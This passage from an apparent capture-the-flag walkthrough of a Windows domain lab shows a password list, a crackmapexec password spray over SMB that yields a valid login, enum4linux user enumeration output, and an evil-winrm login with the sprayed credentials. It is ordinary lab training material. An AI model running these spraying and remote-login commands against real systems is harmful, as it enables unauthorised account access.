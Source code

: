 Both users are valid.

Now we can try to do a Password Spray attack with credentials found in the previous challenge.

{% code title="passwd.list" %}
```
Pwd@9tLNrC3!
VrMAogdfxW!9
RdzQ7MSKt)fNaz3!
PasSW0Rd321
St3veRoxx32
PartyAlLDaY!32
L0v3MyDog!3!
PikAchu!IshoesU!
vRMkaVgdfxhW!8
```
{% endcode %}

```bash
crackmapexec smb 10.10.145.48 -u userlist.txt -p passwd.list

SMB         10.10.145.48    445    K2SERVER         [+] k2.thm\r.bud:vRMkaVgdfxhW!8 
```

We found a valid credentials. With this creds we can run enum4linux with them and find all users.

```
'1113':
  username: r.bud
'1114':
  username: j.bold
'1115':
  username: j.smith
  name: (null)
'500':                                                                                                                                                                                                                                      
  username: Administrator
  name: (null)                                                                                                                                                                      
'501':
  username: Guest                                                                                                                                                                
'502':                                                                                                                                                                                                                                      
  username: krbtgt
```

### Access to the server as Domain user

```bash
evil-winrm -i 10.10.82.211 -u 'r.bud' -p 'vRMkaVgdfxhW!8'
```

In the Documents directory of the user we found this 2 txt files.
